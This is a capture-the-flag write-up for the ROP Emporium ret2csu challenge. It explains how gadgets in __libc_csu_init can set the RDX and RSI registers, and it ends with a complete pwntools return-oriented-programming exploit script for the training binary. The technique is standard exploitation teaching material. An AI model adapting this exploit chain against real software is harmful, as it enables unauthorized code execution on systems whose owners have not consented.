

*The ret2csu is the last challenge of ropemporium and provides a better approach when there is no much gadgets to populate the parameters. It came out to be pretty simple and with the provided white paper, everything was made clear.*
# Security Checks

Starting with the checks on the application, there was some partial RELRO and NX enabled.

```python
from pwn import *
elf = context.binary = ELF('./ret2csu')
```


*Enabled protections*
- Partial RELRO
- NX enabled

From here, interpreting the whole challenge, is the same as [callme](https://b4nng.github.io/ropemporium-callme) but this time there were no useful gadgets.
# Logic

When performing a *syscall* on Linux, we have to follow a specific thing named **calling convention**, so in order to call a function, the first 3 parameters are passed in specific registers: 
1. RDI
2. RSI
3. RDX

From here, all that is need is find gadgets that could fill those registers with arbitrary values, e.g. `pop rax ; mov rdx, rax ; ret`.

In this case, there were no useful gadgets when searching for the third parameter.
```bash
ROPgadget --binary ret2csu | grep -E 'rdi|rsi|rdx'
```

*Lack of useful gadgets for RDX.*

From here we can assume that the binary itself won't have any gadgets that could be used in the rop chain.

When reading the [paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) provided by the challenge, a new concept was introduced, called *ret2csu*, which carries the same principle as *ret2libc* but instead, using the gadgets of the initialization functions present in the binary, like `__libc_csu_init`.
```bash
rabin2 -s ret2csu
```

*Table of symbols of the binary ret2csu.*

When reading the contents of this function, we have an interesting section presented from line *+64*.


*Disassemble of function `__libc_csu_init`.*

When checking for the *+64* line, there is a `mov rdx, r15`, followed by a `mov rsi, r14`, and considering that there is a control of `r15` and `r14` from inside the function (positions *+96* and *+98*), a way to fill the third parameter was found.

Besides that, pay attention on how to proceed on the usage of this section, because we have to consider the existent `call` at *+73* and the comparison at *+81*, controlling that, we know how to use the gadgets properly.

From here, we will build our chain logic:
- Fill buffer;
- Fill `r15` and `r14` registers to send them to `rdx` and `rsi`;
- Calculate an address value that have another address inside, that won't change the execution flow;
- Fill `rbp` with 1 to skip the conditional jump at *+84*;
- Set dummy values;
- Fill `rdi`;
- Call ret2win.

# Gadget gathering

Analyzing the rest of the function, is noted that in position *+73* is a call to **a value inside the address resultant of R12+RBX\*8**. With that in mind, where to find addresses inside the program?

The answer could be the "**.dynamic**" section.

The dynamic section contains important information of dynamic linking for the program like addresses and values that it will use. 

In this case, we are interested in the beginning of the section, that contains addresses of other dynamic linking information.

```bash
rabin2 -S ret2csu
```


*Sections of the binary, with the .dynamic highlighted.*

When analyzing the contents inside the section, there are some addresses that could be identified.


*Addresses found inside the location of .dynamic section.*

Analyzing each one of them, the `0x4006b4` one found out to be pretty simple and straightforward, with no big interactions with other registers nor jumps.


*The 0x4006b4 address.*

So, we will use the `0x600e48` address position, since we want an address that will just execute nothing then return.

Now, to pass the comparison found at *+81*, the value inside *RBP* should be set to 1. So the jump won't occur.


From here, we will first call the second section of the `__libc_csu_init` function we've mentioned before, starting at *+90*, to fill the registers that will, in the first section of the function, send their values to our parameter registers. 


*In the second half of the function, the three registers popped r14, r15 and rbx, will have their values sent to rdx and rsi, (and rbp which will have a comparation instruction).*

So, we will call the second half, fill the "auxiliary" registers, and call the first half that will pass the values to *RSI* and *RDX*. 

With that, we have now full control of the registers responsible for the calling convention.

The final rop chain, in detail, have the following ordered values:
1. Buffer fill;
2. Gadget for the second half of *csu* function, to pop `rbx`, `rbp`, `r12`, `r13`, `r14`, `r15`;
3. `0` for `rbx`, so we won't affect  the address calculation at the *+73* call;
4. `1` for `rbp`, so we won't jump after the comparison;
5. The dynamic section address that contains the `0x4006b4`;
6. Any value for `r13`;
7. Second parameter for `r14`, so it will be moved to `rsi`;
8. Third parameter for `r15`, so it will be moved to `rdx`;
9. Gadget of the first half of *csu* function, to perform the moves and fill the parameter registers;
10. Seven packed 64-bit zero values, because it is irrelevant for us, and it won't affect the rest of the chain, those values will be popped out;
11. Gadget to pop `rdi`;
12. First parameter that will be popped to `rdi`;
13. Address of *ret2win*;

Building the final exploit and running it, we got the flag.


# Final Exploit
```python
#!/usr/bin/env python
from pwn import *

elf = context.binary = ELF('./ret2csu')

# Addresses
ret2win = p64(0x400510)

# Gadgets
# pop rdi ; ret
GDGT_rdi = p64(0x4006a3)

# mov rdx, r15; mov rsi,r14 ; mov edi,r13d, call [r12+rbx*8]
GDGT_rsi_rdx = p64(0x400680)

# pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pops = p64(0x40069a)

param_one = p64(0xdeadbeefdeadbeef)
param_two = p64(0xcafebabecafebabe)
param_three = p64(0xd00df00dd00df00d)

dummy = p64(0x000f000f000f000f)

BUFFER_FILL = b'A'*40

rop = BUFFER_FILL
rop += pops
rop += p64(0) # pop rbx
rop += p64(1) # pop rbp
rop += p64(0x600e48) # pop r12 : dynamic table address of 0x4006b4
rop += p64(0) # r13 -> edi
rop += param_two # r14 -> rsi
rop += param_three # r15 -> rdx
rop += GDGT_rsi_rdx
rop += p64(0)
rop += p64(0)
rop += p64(0)
rop += p64(0)
rop += p64(0)
rop += p64(0)
rop += p64(0)
rop += GDGT_rdi
rop += param_one
rop += ret2win

io = process(elf.path)
io.send(rop)
io.interactive()
```